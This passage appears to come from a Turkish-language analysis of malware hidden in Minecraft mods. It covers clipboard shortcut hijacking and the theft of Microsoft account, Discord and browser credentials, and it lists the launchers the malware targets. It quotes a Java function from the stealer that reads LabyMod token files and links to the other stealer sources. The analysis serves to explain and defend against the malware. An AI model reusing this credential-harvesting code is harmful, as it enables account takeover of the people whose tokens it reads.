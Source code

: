Bu şekilde, bir kullanıcı bir dosyayı kopyaladığında ve başka bir yere yapıştırmak istediğinde, niyet ettikleri dosyanın yerine kötü amaçlı yazılımı çalıştıran bir kısayolu yapıştırmış olurlar.

### Veri hırsızlığı

**MSA Tokenleri**: Bu modun Minecraft modlarına hedef aldığı düşünüldüğünde, Minecraft'a giriş yapmak için kullanılan MSA (Microsoft Account) Tokenlerinin çalınması girişiminde bulunmak doğaldır. Bazı oyun başlatıcıları bu veriyi yerel bir dosyada saklar ve bu kötü amaçlı yazılım, bu dosyayı okumaya çalışacaktır. Bu durum, aşağıdaki gibi çeşitli başlatıcılara etki eder:

* vanilla/mojang başlatıcısı
* eski vanilla/mojang başlatıcısı
* PolyMC / Prism
* Technic
* Feather
* LabyMod (< v3.9.59)
* Ve bulunan herhangi bir MSA Tokeni aşağıdaki gibi etkilenecektir: [Windows Credential Manager](https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0)
[`dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java) dosyasındaki geri alma mantığı, benzer bir şekilde verileri sakladıkları için bir dizi öğede benzer görünüyor. İşte Laby-Mod örneği:
```java
private static void retrieveRefreshTokensFromLabyMod(List<RefreshToken> refreshTokens) throws IOException {
	String appdata = System.getenv("APPDATA");
	if (Platform.isWindows() || Objects.isNull(appdata)) {
		Path path = appdata == null ? null : Paths.get(appdata, ".minecraft", "LabyMod", "accounts.json");
		if (Files.isReadable(path)) {
			extractRefreshTokensFromLabyModLauncher(refreshTokens, Json.parse(Files.readString(path)).asObject());
		}
	}
}
```
"Feather/PolyMC/Prism" kodlarından tokenleri almak için kullanılan stratejiler temel olarak aynıdır.

Bu stratejiden "vanilla" başlatıcılarına geçiş yapmanın değişikliği, Json'unu ek bir şifreleme katmanıyla koruyor olmasıdır.

Bu stratejiden "Technic"e geçiş yapmanın değişikliği ise Technic'in kimlik bilgilerini Java'nın yerleşik nesne serileştirme özelliğini kullanarak `com.google.api.client.auth.oauth2.StoredCredential` türüne saran şekilde depolamasıdır.

**Discord tokenleri**: Herkes bir token hırsızını görmüştür. Tokeni ve ödeme yöntemleri, bağlı telefon numarası vb. gibi ek bilgileri çalar. Standart istemci, canary, ptb ve lightcord istemcilerini etkiler. İlgili kaynak: [`dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java`](https://github.com/clrxbl/NekoClient/blob/fd76c5f9d40d1e10de11f00a6b4e0cca3d6221a3/dev/neko/nekoclient/api/stealer/discord/DiscordAccount.java)

**Çerezler ve Kaydedilen Kimlik Bilgileri**: Etkilenen tarayıcılarda kaydedilen çerezleri ve giriş bilgilerini çalar. İlgili kaynak: [`dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java)
